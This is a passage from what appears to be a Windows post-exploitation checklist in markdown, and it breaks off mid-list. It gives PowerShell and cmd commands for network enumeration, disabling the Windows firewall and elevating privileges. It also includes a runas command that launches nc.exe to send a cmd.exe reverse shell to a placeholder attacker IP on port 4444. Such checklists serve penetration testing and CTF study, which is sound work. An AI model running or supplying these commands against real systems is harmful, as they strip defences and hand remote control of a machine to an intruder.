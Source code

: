 	```
- [ ] List routing table
	```powershell
	route print
	Get-NetRoute -AddressFamily IPv4 | ft DestinationPrefix,NextHop,RouteMetric,ifIndex
	```
- [ ] List ARP table
	```powershell
	arp -A
	Get-NetNeighbor -AddressFamily IPv4 | ft ifIndex,IPAddress,LinkLayerAddress,State
	```
- [ ] List current connections
	```powershell
	netstat -ano
	```
- [ ] List current connections correlated to running service (requires elevated privs)
	```powershell
	netstat -bona
	```
- [ ] List firewall state and config
	```powershell
	netsh advfirewall firewall dump
	netsh firewall show state
	netsh firewall show config
	```
- [ ] List firewall's blocked ports
	```powershell
	$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
	```
- [ ] Disable firewall
	```powershell
	netsh advfirewall set allprofiles state off
	netsh firewall set opmode disable
	```
- [ ] List network shares
	```powershell
	net share
	powershell Find-DomainShare -ComputerDomain domain.local
	```
- [ ] SNMP config
	```powershell
	reg query HKLM\\SYSTEM\\CurrentControlSet\\Services\\SNMP /s
	Get-ChildItem -path HKLM:\\SYSTEM\\CurrentControlSet\\Services\\SNMP -Recurse
	```
### Credential Access
- [ ]  Go from **medium mandatory level** to **high mandatory level**
	```powershell
	# using powershell
	powershell.exe Start-Process cmd.exe -Verb runAs
	```
- [ ] **TRY KNOWN PASSWORDS!**
	```powershell
	# check also with runas
	C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
	```
- [ ] Creds from config files (Try different words e.g: pass, passwd, pwd, user, usr, username, secret, cred, credential, auth):
	```powershell